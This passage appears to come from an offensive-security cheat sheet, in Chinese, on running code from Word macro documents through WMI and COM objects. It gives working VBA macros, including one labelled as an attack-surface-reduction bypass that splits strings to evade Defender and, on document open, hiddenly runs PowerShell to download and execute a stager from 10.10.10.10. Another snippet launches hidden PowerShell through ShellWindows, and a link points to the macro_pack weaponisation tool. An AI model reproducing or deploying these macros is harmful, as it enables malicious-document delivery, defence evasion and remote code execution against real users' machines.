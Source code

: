 #### DOCM - WMI COM 函数

基本的 WMI 执行（被 Defender 检测到）：`r = GetObject("winmgmts:\\.\root\cimv2:Win32_Process").Create("calc.exe", null, null, intProcessID)`

```ps1
Sub wmi_exec()
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
    Set objStartUp = objWMIService.Get("Win32_ProcessStartup")
    Set objProc = objWMIService.Get("Win32_Process")
    Set procStartConfig = objStartUp.SpawnInstance_
    procStartConfig.ShowWindow = 1
    objProc.Create "powershell.exe", Null, procStartConfig, intProcessID
End Sub
```

* https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3
* https://labs.inquest.net/dfi/sha256/f4266788d4d1bec6aac502ddab4f7088a9840c84007efd90c5be7ecaec0ed0c2

```ps1
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'http://10.10.10.10/stage.ps1')", Null, objConfig, intProcessID
End Sub

Sub AutoExec()
    ASR_bypass_create_child_process_rule5
End Sub

Sub AutoOpen()
    ASR_bypass_create_child_process_rule5
End Sub
```

```ps1
Const ShellWindows = "{9BA05972-F6A8-11CF-A442-00A0C90A8F39}"
Set SW = GetObject("new:" & ShellWindows).Item()
SW.Document.Application.ShellExecute "cmd.exe", "/c powershell.exe", "C:\Windows\System32", Null, 0
```

#### DOCM/XLM - 宏包 - 宏和 DDE

> 仅社区版本在线上可用。

* [https://github.com/sevagas/macro_pack](https://github.com/sevagas/macro_pack/releases/download/v2.0.1/macro_pack.exe)
